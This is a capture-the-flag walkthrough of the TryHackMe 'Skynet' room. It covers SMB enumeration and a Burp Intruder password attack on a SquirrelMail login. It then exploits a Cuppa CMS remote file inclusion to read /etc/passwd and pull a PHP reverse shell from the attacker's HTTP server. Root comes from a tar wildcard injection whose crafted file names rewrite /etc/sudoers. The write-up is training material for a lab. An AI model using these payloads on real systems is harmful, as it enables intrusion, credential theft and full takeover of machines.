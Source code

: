 # [Skynet](https://tryhackme.com/room/skynet)

> Difficulty: Easy

<details>
  <summary>Scanning</summary>


# Scanning
We run an NMAP with  
```
nmap -sV targetmachineIP
```

+ `-sV`: Not only checks for open ports but the version of the service running.

![image](https://user-images.githubusercontent.com/115602464/195729150-4dab67da-e7ae-4a20-9404-8c3a921d1ed6.png)

Two things pop out to me here. There is a website being hosted on port 80 and samba is running on 139 and 445.

+ `Samba`: is a program that allows users to access shared files, printers, and other resources on a company's intranet.

</details>
  
  
<details>
  <summary>Enumeration</summary>


# Enumeration

Heading over to the target machines IP address in our browser we can see some sort of search engine called "Skynet".

![image](https://user-images.githubusercontent.com/115602464/195732140-1b93ad4d-7a80-4c5f-8d1a-398f288c23b8.png)

Searches don't give results, and the page source provides us with nothing important. 

Let's move on and start a dirb scan which will check for hidden directories and while that is running we will enumerate the samba service.


![image](https://user-images.githubusercontent.com/115602464/195738346-7b486a45-66af-4cc8-a115-5efb7dc1216e.png)

The dirb scan revealed a /squirrelmail/ directory. Let's check it out!

![image](https://user-images.githubusercontent.com/115602464/195739255-2b733e92-9225-4a64-ba0d-48759310adaa.png)

We are given a login form for an email application.

The hint for flag 1 is "Enumerate Samba".

Enumerating the samba service will give us some information on what kind of shares/users are available.

We will use a piece of software called enum4linux. Enum4linux enumerates Windows and Samba systems. [Info](https://www.kali.org/tools/enum4linux/#:~:text=Enum4linux%20is%20a%20tool%20for,%2C%20rpclient%2C%20net%20and%20nmblookup.)
```
enum4linux targetmachineIP
```


The results from enum4linux show us three important pieces of information:

+ `Server`: The server name is `SKYNET`.
+ `Users`: There is a `Miles Dyson` user.
+ `Shares`: There are three shares available, `PRINT$, Miles Dyson, Anonymous`.


![image](https://user-images.githubusercontent.com/115602464/195744944-d73f3b69-2eec-4d83-8520-2ee8a9664c02.png)

The anonymous share is something we can access without credentials!

Lets Access the share using smbclient. We simply provide the IP address of the server and the share we are accessing.

```
smbclient '\\targetmachineIP\Anonymous\'
```
You will be asked for a root password, hit enter and you're logged in as Anonymous!

![image](https://user-images.githubusercontent.com/115602464/195746239-a5cc15e7-0dc1-422d-8cb7-e1e99e0fb4a1.png)

We can download the attention.txt file with `get attention.txt`.

Let's also `cd` into logs and `get` the log1.txt. We will not download log2.txt and log3.txt because we see they are empty.

They will be in the pwd directory of your terminal. Simply run `quit` to exit smbclient.

Lets open up all of the files and see their contents. .

![image](https://user-images.githubusercontent.com/115602464/195748875-eaa4de15-1157-4543-b016-778f1b2adaee.png)

![image](https://user-images.githubusercontent.com/115602464/195748923-5a8f30b5-2b09-4b54-85cc-a6e9a01bb3a8.png)

We can see that there is a user named Miles Dyson, which we enumerated earlier with enum4linux, and log1.txt contained what seems to be a password list.

The list is fairly short in this case and you could manually try the passwords one by one, but let's go through the process as if the list contained a much larger password count.

The two similar tools I use in this situation is Hydra and burp suite intruder. In this case I chose burp suite.

Open up burp suite, start a temporary project, and use burp defaults. 

If you are on the attackBOX for tryhackme your firefox will have an addon called foxyproxy. It will have been configured to work with burp suite.

Turn on firefox, and click on the foxyproxy icon on the top right and select the green burp option. Your burp suite will now intercept your traffic.

![image](https://user-images.githubusercontent.com/115602464/195750364-fc218588-a37e-4579-8d5a-188181b8b6ce.png)

If you are using your own machine and are using a VPN to work on this room, check out this [Guide](https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/).

Once that is on, go to the squirrelmail login form, enter milesdyson for user and enter any random characters for pass. Check your proxy tab inside burp. There should be a POST request that looks like this:

![image](https://user-images.githubusercontent.com/115602464/195753047-94590f91-cc27-443d-a2a9-9ea4f51f0e13.png)

Right click on this and send it to intruder. Hit clear on the right side. We need to select the location in the request that will be attacked with intruder.

In this case we assume we know the correct username, milesdyson, so we just need to get the correct password.

Highlight the password that you typed in earlier in the login form and click the ADD button on the right side. 

Your request should only have the password part of the form highlighted with symbols around your pass:

![image](https://user-images.githubusercontent.com/115602464/195753133-878f7c15-7c64-4a54-b503-8d62583eb2b6.png)

Click on the payloads tab at the top, highlight and copy all of the passwords in the log1.txt file, and paste them into the payload options section.

![image](https://user-images.githubusercontent.com/115602464/195753604-3c1e0c57-f641-444a-8575-819ec0853f33.png)

Your attack is ready, just hit start attack at the top right of burp!

You should notice fairly quickly that there is one password that stands out. It will stand out because the response code will be different than the rest.

![image](https://user-images.githubusercontent.com/115602464/195754208-60a84a13-ebe3-4411-ae52-fd2ff75da949.png)

Login with milesdyson and your new found password to explore his mail.

We see an email containing an SMB password reset!

Lets use smbclient to login as milesdyson.

```
smbclient '\\targetmachineIP\milesdyson\' -U milesdyson
```
After looking around a bit we can see a notes directory with a file called `important.txt`. Lets `get` the file and `cat` it on our machine.

The contents seem to be a to-do list with the very first item being `Add features to beta CMS /45kra24zxs28v3yd`.

The `/45kra24zxs28v3yd` is a directory. Lets go to `targetmachineIP/45kra24zxs28v3yd`.

![image](https://user-images.githubusercontent.com/115602464/195756477-77cd0b84-afc1-4f8d-a90a-b4ce48a292a2.png)

There doesn't seem to be anything important here. Lets run dirb to find any directories hidden within this one.

```
dirb http://10.10.209.119/45kra24zxs28v3yd/
```

One of the directories that is found is /administrator.

![image](https://user-images.githubusercontent.com/115602464/195756685-5b5372c6-bf98-434e-bd5d-29e0c7cc4315.png)

Visiting /administrator we see a cuppa CMS login. 

</details>
  
  
<details>
  <summary>Exploitation</summary>  
  
# Exploitation

Before trying to attack the login form, lets see if there is an exploit that exists for `Cuppa CMS`.

![image](https://user-images.githubusercontent.com/115602464/195757669-54b67500-1807-4f4f-96f5-347a68db60ff.png)

Reading the exploit page we can see that this isn't a python script. This is a remote file inclusion vulnerability. This exploit can be done through the URL.

![image](https://user-images.githubusercontent.com/115602464/195758051-adf1f722-573c-40ee-b687-f8e3bc75619d.png)


We can test this by running the command

```
http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Since this works we can use the first example in the picture above to load up a php reverse shell.

Lets download a php reverse shell and modify the IP to match our machine and the port to be 1337.

We also need to start a python http server. We can do this with `python2 -m SimpleHTTPServer 4444`.

Place the reverse shell in the directory where you ran your python server.

Your reverse shell should look like this:

![image](https://user-images.githubusercontent.com/115602464/195759360-550fbe15-c027-4f1a-a466-190a4cdf8920.png)

Lets also host a listener on our attacker machine. This can be done with `nc -lvnp 1337`.

At this point we should have a listener on port 1337 and our python server on port 4444.

Now on the target machine we can access the revshell by going to our python server. Your IP will be different but it should look something like this:

`http://10.10.209.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.100.47:4444/revshell.php`

Check your listener and you should have a reverse shell!

Lets look around a little bit. There is a milesdyson folder in the home directory.

![image](https://user-images.githubusercontent.com/115602464/195760575-9c06e4d8-6219-4139-9acd-c3e972f93b7a.png)

The user flag is inside user.txt. 🚩

</details>

<details>
  <summary>Escalation</summary>
  
# Escalation

The backups folder contains a backup.sh file:

![image](https://user-images.githubusercontent.com/115602464/195760730-62664aec-e164-4225-9be7-dccf7a976c8d.png)

This shell script has a wildcard exploit. [More info here](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

We can exploit this by changing into the /var/www/html directory and running:

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

Lets upgrade our shell a little bit to be able to run `sudo -l`.

```
python -c 'import pty;pty.spawn("/bin/bash")';
```

After a couple of minutes we run `sudo -l`:

![image](https://user-images.githubusercontent.com/115602464/195761720-4a9a84b6-9183-41e3-a8ba-d12f80c505b4.png)

Great! Lets get the root.txt file and get our last flag! 🚩

![image](https://user-images.githubusercontent.com/115602464/195762012-08b427cb-439d-4f07-a25a-97d0739a97f1.png)


</details>
